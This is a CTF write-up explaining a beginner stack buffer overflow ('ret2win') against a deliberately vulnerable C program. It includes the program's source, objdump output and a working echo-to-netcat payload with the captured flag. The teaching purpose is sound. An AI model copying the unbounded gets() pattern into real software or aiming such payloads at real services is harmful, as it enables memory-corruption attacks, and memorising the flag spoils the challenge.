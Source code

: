 ```yaml
---
layout: post
title: "ret2win CTF Writeup"
excerpt: One of the most common exploit problems presented in CTFs are "ret2win" problems. Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and experienced players a chance to warm.
---
```


## The Problem

One of the most common exploit problems presented in CTFs are "ret2win" problems.
Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and
experienced players a chance to warm. The challenge, titled "ret2win", gives the
description:

> Jumping around memory is hard. I'll give you some help so that you can pwn this!

This is accompanied by 2 attachments and a netcat command to talk to the server the challenge
is running on.

[vuln](https://imaginaryctf.org/r/W94dw#vuln)
[vuln.c](https://imaginaryctf.org/r/IDlsV#vuln.c)
`nc ret2win.chal.imaginaryctf.org 1337`

## The Source, a binary, and the Server Soon To Be Pwned

Running the binary presents the user with a prompt:

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
```

As far as ret2win's go, this one is certainly handing the answer on a silver platter.
Once the user has given the program its input, another line is presented.

```
Returning to 0x7f97cc429290...
```

This address being returned will become very useful in a bit. However, lets move on the source code.

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
  FILE *fp;
  char flag[255];
  fp = fopen("flag.txt", "r");
  fgets(flag, 255, fp);
  puts(flag);
}

char **return_address;

int main() {
  char buf[16];
  return_address = buf+24;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  puts("Welcome to ret2win!");
  puts("Right now I'm going to read in input.");
  puts("Can you overwrite the return address?");

  gets(buf);

  printf("Returning to %p...\n", *return_address);
}
```

The first thing that will catch your eye is the `int win()` function. Reading it carefully you will
see that this function opens the flag file and spits it out to the user. Great! This is what we need.
Looking at the `main()` function we see that a 16 byte buffer is allocated to the stack, the `return_address`
global variable is set to 24 bytes offset from the buffer (seemingly out of bounds). Then, the start message
we saw is displayed, a string is read into `buf`, and the address `return_address` points to is displayed.

However, there is something wrong here. The `win` function is never called. So this challenge must not be
possible right? Well, it is, but we need a bit of knowledge of how x86 uses the stack and a buffer overflow.

## The Stack Demystified

Operating systems like Linux use the stack in a predictable way. When entering a function, they save a
pointer to where they left off on the stack. This pointer is what is popped off when `return` is called
and the program must got back to whence it came. After entering a function, a pointer to the base of the
last stack frame (`ebp`) is usually saved (unless the stack isn't used in that function), and any stack allocated
variables are pushed to the end.

For instance, our main functions stack would look like below (first row is highest addresses):

||||
| --- | --- |
| 0xFFFFFFFF | ... |
| 0xFFFFFFF8 | `return_address` |
| 0xFFFFFFF0 | `ebp` |
| 0xFFFFFFE0 | `buf` |

So, since our goal is to run `win` to get our flag value, maybe instead of having main return to `return_address` we
could somehow have it return to a different address; Say the start of `win`. For this we will need one more thing: a
buffer overflow.

## Buffer Overflow

You may notice that the call to `gets` doesn't have a length parameter. That is because it is not bounds checked.
It simply continues taking in characters and writing to its buffer until input ends. Well since `buf` is right
below `ebp` and `return_address` in the stack, this means that it could potentially overwrite those values if
we input more than 16 characters. Let's test this theory. For our input let's enter "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Returning to 0x6161616161616161...
[1]    637 segmentation fault (core dumped)  ./vuln
```

We crashed! You'll see the address we tried to return to while invalid is exactly what we wanted: a bunch of 'a's or 0x61 in hex.
Now we just have to carefully craft our input to overwrite the `return_address` with `win`s starting address.

To get `win`s starting address we can use a linux utility called `objdump`. This program will take in a binary and
spit out its assembly code along with any symbols it can find. Running `objdump -D ./vuln` will display a lot of assembly code including...

```asm
00000000004011d6 <win>:
  4011d6:       f3 0f 1e fa             endbr64
  4011da:       55                      push   %rbp
  4011db:       48 89 e5                mov    %rsp,%rbp
  4011de:       48 81 ec 10 01 00 00    sub    $0x110,%rsp
  4011e5:       48 8d 35 1c 0e 00 00    lea    0xe1c(%rip),%rsi        # 402008 <_IO_stdin_used+0x8>
  4011ec:       48 8d 3d 17 0e 00 00    lea    0xe17(%rip),%rdi        # 40200a <_IO_stdin_used+0xa>
  4011f3:       e8 e8 fe ff ff          call   4010e0 <fopen@plt>
  4011f8:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  4011fc:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
  401200:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  401207:       be ff 00 00 00          mov    $0xff,%esi
  40120c:       48 89 c7                mov    %rax,%rdi
  40120f:       e8 9c fe ff ff          call   4010b0 <fgets@plt>
  401214:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  40121b:       48 89 c7                mov    %rax,%rdi
  40121e:       e8 6d fe ff ff          call   401090 <puts@plt>
  401223:       90                      nop
  401224:       c9                      leave
  401225:       c3                      ret
```

We have it! The address we need to jump to is `0x4011d6`. Now we can move on to our attack.

## The Exploit

To craft our payload, I'll just be using `echo`, but other
methods can also work to send non-character data. First, we will send 16 'a's to just fill up the buffer. Then, another
8 bytes of any non-zero values to fill out `ebp`. Lastly, we send `0x4011d6` in little endian as a 64 bit number. When, going over netcat
it will be necessary that we also send a newline since the input buffer is still open.

```sh
❯ echo -n -e '\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xd6\x11\x40\x00\x00\x00\x00\x00\n' | nc ret2win.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
Returning to 0x4011d6...
ictf{c0ngrats_on_pwn_number_1_9b1e2f30}
```

> ictf{c0ngrats_on_pwn_number_1_9b1e2f30}

We got our flag and 100 points! If you've made it this far, I hope you learned a thing or two about how stacks and
buffer overflows work. Now get out there and pwn some more CTF's.

Happy Hacking.

